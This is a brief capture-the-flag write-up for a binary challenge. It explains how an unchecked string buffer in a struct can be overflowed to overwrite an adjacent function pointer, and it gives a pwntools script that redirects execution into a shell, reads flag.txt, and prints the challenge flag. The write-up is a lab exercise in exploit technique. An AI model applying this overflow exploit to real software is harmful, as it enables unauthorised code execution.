 # 🔑 Write-Up

By looking at the source we can see that there's a struct containing a string followed by a function pointer, if we can somehow overflow the string buffer we can jump to an arbitrary location. One interesting destination might be the last line of the `bash` function which happens to have an offset of `0x32` from the start of the function. The user input handling doesn't check string bounds so we can easily overflow the buffer and pop a shell.

```python
from pwn import *

context.binary = "./java"

p = process()
p.sendline(b"java" + b"A" * 28 + p64(context.binary.functions["bash"].address + 0x32))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
flag{this_is_a_flag}
```